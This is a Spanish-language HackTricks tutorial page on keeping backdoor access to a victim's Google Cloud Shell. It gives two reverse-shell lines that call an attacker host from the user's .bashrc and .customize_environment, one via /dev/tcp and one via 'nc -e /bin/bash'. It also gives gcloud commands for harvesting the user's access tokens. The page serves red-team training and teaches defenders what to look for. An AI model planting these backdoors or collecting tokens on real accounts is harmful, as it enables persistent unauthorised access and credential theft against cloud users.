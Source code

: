# GCP - Persistencia en Cloud Shell

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github repos.

</details>

## Cloud Shell

Para más información, consulta:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Puerta Trasera Persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) te proporciona acceso a la línea de comandos a tus recursos en la nube directamente desde tu navegador sin ningún costo asociado.

Puedes acceder a Cloud Shell de Google desde la **consola web** o ejecutando **`gcloud cloud-shell ssh`**.

Esta consola tiene algunas capacidades interesantes para atacantes:

1. **Cualquier usuario de Google con acceso a Google Cloud** tiene acceso a una instancia de Cloud Shell completamente autenticada (las Cuentas de Servicio pueden, incluso siendo Propietarios de la organización).
2. Dicha instancia **mantendrá su directorio home durante al menos 120 días** si no hay actividad.
3. No hay **capacidad para que una organización monitoree** la actividad de esa instancia.

Esto básicamente significa que un atacante podría colocar una puerta trasera en el directorio home del usuario y mientras el usuario se conecte al GC Shell cada 120 días al menos, la puerta trasera sobrevivirá y el atacante obtendrá una shell cada vez que se ejecute simplemente haciendo:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Hay otro archivo en la carpeta de inicio llamado **`.customize_environment`** que, si existe, se ejecutará **cada vez** que el usuario acceda al **cloud shell** (como en la técnica anterior). Simplemente inserte el backdoor anterior o uno similar al siguiente para mantener la persistencia mientras el usuario utilice "frecuentemente" el cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Tenga en cuenta que **la primera vez que se realiza una acción de GCP en Cloud Shell que requiere autenticación**, **aparece** una ventana de autorización en el navegador del usuario que debe ser aceptada antes de que se ejecute el comando. Si aparece un pop-up inesperado, el objetivo podría sospechar y eliminar el método de persistencia.

Este es el pop-up que aparece al ejecutar `gcloud projects list` desde el cloud shell (como atacante) visto en la sesión del navegador del usuario.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Sin embargo, si el usuario ha utilizado activamente el cloudshell, el pop-up no aparecerá y usted puede **recolectar tokens del usuario con**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Cómo se establece la conexión SSH

Básicamente, se utilizan estas 3 llamadas a la API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (te permitirá agregar tu clave pública que creaste localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (te permitirá iniciar la instancia)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (te informará la IP de la Cloud Shell de Google)

Pero puedes encontrar más información en [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referencias

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;repositorios en github.

</details>
